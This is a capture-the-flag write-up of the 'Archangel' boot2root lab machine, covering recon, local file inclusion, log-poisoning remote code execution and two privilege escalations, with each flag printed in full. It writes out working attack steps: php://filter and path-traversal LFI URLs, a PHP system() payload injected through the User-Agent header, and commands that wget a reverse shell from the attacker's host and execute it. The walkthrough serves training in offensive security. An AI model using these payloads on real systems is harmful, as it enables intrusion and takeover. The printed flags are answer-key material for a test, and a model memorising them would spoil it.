 # Information

Name: Archangel

Difficulty: Easy

Description: Boot2root, Web exploitation, Privilege escalation, LFI

## Recon

**Search for open ports using nmap.**

![image](https://user-images.githubusercontent.com/43668197/133605421-aa240fea-003d-48a4-bd4f-18e007819542.png)

Our attack surface consists of a webserver at port 80 and then an ssh server after we get credentials at port 22. A more aggressive scan reveals we have access to
some supported http methods: HEAD, GET, POST, and OPTIONS.

![image](https://user-images.githubusercontent.com/43668197/133610261-28882a64-0d9a-4a85-b3f7-08488bd25bb7.png)

A quick look around the site reveals another host name in an email.

![image](https://user-images.githubusercontent.com/43668197/133611175-753c2cbe-ef4c-48cd-ad66-62bbe6f9d58d.png)

**Find a different hostname**

mafialive.thm

I run a gobuster on this ip first to see if theres anything else of interest. The flags directory exists just to troll us of course but I still enjoyed the laugh.
But otherwise found nothing here so its time to add mafialive.thm to /etc/hosts.

![image](https://user-images.githubusercontent.com/43668197/133611487-758f1f52-90fa-46ec-bdec-e64592173520.png)

Navigating to http://mafialive.thm/ immediately greets us with the first flag.

**Find flag 1**

thm{f0und_th3_r1ght_h0st_n4m3} 

This host has a robots.txt with some useful information for us.

![image](https://user-images.githubusercontent.com/43668197/133613104-ac9a785f-c4f1-42e4-a0e3-b0ec54ff3b77.png)

**Look for a page under development**

test.php

The title of this page is INCLUDE. Could this be a hint toward LFI?

## Exploitation: LFI

![image](https://user-images.githubusercontent.com/43668197/133614157-eee2f713-2775-4c07-96a3-b4c51e102353.png)

?view= looks promising. We can use phpfilter to read the php code of the site.

https://highon.coffee/blog/lfi-cheat-sheet/#php-wrapper-phpfilter

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

![image](https://user-images.githubusercontent.com/43668197/133614629-c2a7dfb8-317b-4a9b-95df-0f9469b200db.png)

![image](https://user-images.githubusercontent.com/43668197/133614920-bc58d46d-d2bb-4528-bd7d-44745bdf0c86.png)

Now we ready the test.php page using the same method.

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![image](https://user-images.githubusercontent.com/43668197/133615351-8f51b1c5-d1ee-437d-9d89-0f9ab5d2a8d0.png)

And we get another flag.

**Find flag 2**

thm{explo1t1ng_lf1}

We can bypass the filter by using // instead of / so we use:

```
test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```
And it works!

![image](https://user-images.githubusercontent.com/43668197/133615899-dd76a7dc-6f4d-424d-b98f-1951583feb86.png)

## Exploitation: RCE

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././../var/log/apache2/access.log
```

We can access the log file. https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-2-rce so we replace the User-Agent header with the malicious PHP code.

```
curl 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log' -H 'User-Agent: <?php system($_GET['cmd']); ?>'
```

## Initial access

So now we can set up an http server on our machine and use wget to upload the payload.

```
mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=wget 10.2.70.199:8000/php-reverse-shell.php -O /tmp/reverse.php
```

Start the nc listener.

![image](https://user-images.githubusercontent.com/43668197/133627778-8096c9c8-19a2-4480-9af4-196bb989cbc5.png)

Then set the chmod and execute.

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././var/log/apache2/access.log&cmd=chmod 777 /tmp/reverse.php; php /tmp/reverse.php
```

And we're in.

![image](https://user-images.githubusercontent.com/43668197/133628117-0353bf0b-d248-46d4-941a-f1ca6a88dce5.png)

Theres a single user named archangel and we find the user flag there.

**Get a shell and find the user flag**

thm{lf1_t0_rc3_1s_tr1cky}

Theres another folder here called secret but access is limited to the user archangel. There isnt much else to go on so I use wget to grab linpeas.sh from my local
machine and let it run. It finds an interesting cron job belonging to archangel.

![image](https://user-images.githubusercontent.com/43668197/133632657-3ed7ba40-c274-4dea-9cc4-2a9b6ea04fe3.png)

It also finds an all too easy file but we all know where this goes.

![image](https://user-images.githubusercontent.com/43668197/133634017-01d7f08e-5ede-4faa-aa59-253da33b7328.png)

![image](https://user-images.githubusercontent.com/43668197/133634167-8c583de8-112b-4f39-9480-b562f2843728.png)

![image](https://user-images.githubusercontent.com/43668197/133634347-4f374296-430d-490e-b6bd-dfe1ec2cf761.png)

## Initial priv esc to archangel user

This script can be edited and executed by any user. So we insert our reverse shell after loading up nc listener on our machine and we are in.

![image](https://user-images.githubusercontent.com/43668197/133636214-14bcef84-1888-4d67-b8e8-2d71f304c800.png)

![image](https://user-images.githubusercontent.com/43668197/133636414-c63f7a52-2f14-424c-a710-2b2c4141972a.png)

Time to check out that secret folder that archangel has. It contains the user flag and a binary file named backup. This ELF executable has the SUID bit set, 
which means we can execute this binary with the effective user-id of the root user.

**Get User 2 flag**

thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n}

Taking a look at the strings for the file backup revels an interesting cp command. We can priv esc this using PATH variable
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

![image](https://user-images.githubusercontent.com/43668197/133637607-9b8b8553-e208-418f-b705-c6f4cc147841.png)

![image](https://user-images.githubusercontent.com/43668197/133638048-a4f48378-bb26-47c2-98b9-4ce0e004c7d1.png)

And we can find the root flag in the usual /root directory

**Root the machine and find the root flag**

thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}



